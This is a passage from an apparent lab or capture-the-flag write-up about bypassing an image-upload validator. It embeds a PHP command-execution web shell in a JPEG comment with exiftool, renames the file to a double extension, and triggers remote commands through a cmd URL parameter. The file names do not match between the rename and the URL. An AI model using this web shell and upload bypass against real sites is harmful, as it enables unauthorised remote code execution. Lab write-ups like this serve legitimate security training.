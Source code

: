 No luck. There is some level of image validation occurring here, so let's try a different route. Chances are, the validator is looking at the MIME type and the extension.

Using the `exiftool`, let's add some simple PHP code to the comment metadata of an image that will allow RCE on the box, if it bypasses the validator.

Additionally, in order for our browser to execute the code injected in the image, we need to add the PHP extension to the image name, but we must still keep the JPEG extension at the end, as this will allow the image through.

```
$ sudo exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' sponge.jpg
$ mv sponge.jpg sponge.php.jpg
```

Let's try to get this uploaded.

![](images/success.png)

Success! Using the following URL, we should be able to execute commands remotely.

```
http://10.10.10.185/images/uploads/photo.php.png?cmd=COMMAND
```

It looks like we are able to do so.
